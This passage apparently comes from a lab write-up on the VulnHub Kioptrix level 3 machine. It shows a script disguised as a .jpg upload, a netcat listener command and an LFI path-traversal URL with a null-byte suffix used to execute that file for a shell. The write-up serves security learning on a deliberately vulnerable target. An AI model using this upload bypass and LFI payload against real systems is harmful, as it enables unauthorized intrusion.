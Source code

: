 I changed the extension of the script to `.jpg` and reuploaded it. This time on opening the file I received a different message.

![Gallery|600](images/vulnhub-kioptrix-lvl3/gallery-9.png)

Now it looks like the file was indeed uploaded but since it is not an actual image the browser could not render the file. 

Set up a listener using `netcat` and using the LFI vulnerability that was found on the `system` query parameter execute the script.

```bash
# Listener
nc -nvlp 9002

# URL with LFI
http://kioptrix3.com/index.php?system=../../../../../../../../../../home/www/kioptrix3.com/gallery/photos/9x02r923va.jpg%00.html
```

![Gallery|600](images/vulnhub-kioptrix-lvl3/gallery-10.png)

![LFI Listeer|540](images/vulnhub-kioptrix-lvl3/lfi.png)
